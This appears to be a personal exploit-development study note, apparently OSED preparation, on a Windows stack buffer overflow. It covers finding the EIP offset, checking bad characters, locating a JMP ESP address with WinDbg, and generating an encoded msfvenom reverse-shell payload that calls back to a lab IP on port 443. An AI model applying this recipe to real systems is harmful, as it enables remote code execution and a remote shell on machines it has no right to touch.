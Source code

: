 # Locating the crash
Generate the pattern with KALI or online.
Put the pattern as payload and detect the offset of the crash.
Once the offset is located, fill with As.

msf-pattern_create -l 2600

When crashing, EIP will have a certain value.
Copy the value to obtain the exact offset:
msf-pattern_offset -l 2600 -q "TBD_EIP"

NOTE that the offset given by the tool DOES NOT COVER EIP.
You will have to add 4 bytes after that offset to cover EIP.

Once we add the buffer + the offset to cover EIP, it's turn to know where our shellcode is stored. Let's put some Cs, and see where ESP points:
dds esp 
dds esp-4
dds esp-8
dds esp-10
Until we don't see CS:
![](content/images/post_images/osed_1.png)

We know esp-8, then 8. We check it
![](content/images/post_images/osed_1_1.png)
Now badchars.

```
badchars = ( b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30" b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50" b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70" b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90" b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0" b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0" b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0" b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

db esp Lff to show all the bytes and see if any is affected:
![](content/images/post_images/osed_1_2.png)
Delete badchars if applicable. See if any of them is missing and repeat the step.

Now we have to find a JMP ESP ADDRESS in any DLL. Remember:
- That address must not contain badchars -> 
- The JMP ESP must not be in a read only section. If the DLL has DEP, .data is executable and we can use that address.

We want the opcode of the JMP ESP instruction. 
In KALI, execute msf-nasm_shell and introduce jmp esp.
The value is FFE4

Then we see all modules with lmD
and then we get our module with lm m "TBD_module_name"
We should see the start and end address and confirm there are no badchars(remember, zeros are only bad at left)

Then we search for the FFE4 (JMP ESP) instruction in that range:
s -b START END 0xff 0xe4

If we get an ocurrence, we confirm that the address does not contain badchars:
![](content/images/post_images/osed_1_4.png)

EIP will have to point to that address. Remember to put the address in little endian:
eip = b"\xcf\x10\x80\x14" # 0x148010cf

![](content/images/post_images/osed_1_5.png)

Generate msfvenom payload with badchars:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=443 -f python –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
Note that you can put the EXITFUNC=thread parameter so that only exits the thread and not the whole program when the shellcode is executed.
